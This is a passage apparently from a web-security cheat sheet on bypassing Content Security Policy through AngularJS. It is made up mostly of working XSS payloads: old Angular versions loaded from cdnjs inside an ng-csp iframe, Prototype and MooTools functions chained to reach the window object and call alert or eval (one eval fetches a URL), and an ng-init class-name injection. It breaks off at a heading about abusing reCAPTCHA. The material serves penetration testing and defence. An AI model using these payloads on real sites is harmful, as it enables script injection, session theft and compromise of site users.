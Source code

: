 ```xml
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
  <script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
  </script>
  <img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```

#### Payloads using Angular + a library with functions that return the `window` object ([check out this post](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)):

> [!NOTE]
> The post shows that you could **load** all **libraries** from `cdn.cloudflare.com` (or any other allowed JS libraries repo), execute all added functions from each library, and check **which functions from which libraries return the `window` object**.

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
 {{$on.curry.call().alert(1)}}
 {{[].empty.call().alert([].empty.call().document.domain)}}
 {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{[].erase.call().alert('xss')}}
</div>
```

Angular XSS from a class name:

```html
<div ng-app>
  <strong class="ng-init:constructor.constructor('alert(1)')()">aaa</strong>
</div>
```

#### Abusing google recaptcha JS code

According to [**this CTF writeup**](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=es&_x_tr_pto=wapp#noteninja-3-solves) you can abuse [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/) inside a CSP to execute arbitrary JS code bypassing the CSP:

